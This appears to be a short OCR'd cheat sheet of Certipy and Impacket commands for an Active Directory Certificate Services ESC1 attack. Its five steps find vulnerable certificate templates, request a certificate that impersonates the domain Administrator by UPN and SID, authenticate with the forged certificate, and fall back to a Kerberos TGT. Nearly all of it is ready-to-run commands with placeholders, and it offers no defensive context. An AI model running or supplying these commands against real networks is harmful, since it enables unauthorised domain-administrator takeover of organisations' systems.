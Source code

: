 # 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_HOST> -vulnerable -stdout
```

# 2. Request a cert that impersonates Administrator
```certipy req -u <username> -p '<password>' -target <CA_HOST> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

# 3. Log on with the minted cert
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```

# 4. If password of hash fails:
```
getTGT.py <domain>/<username>:'<password>' -dc-ip <DC_IP>
```
# 5. Using Kerberos for certificate request.
```
certipy req -u <username> -k -target <CA_HOST> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```
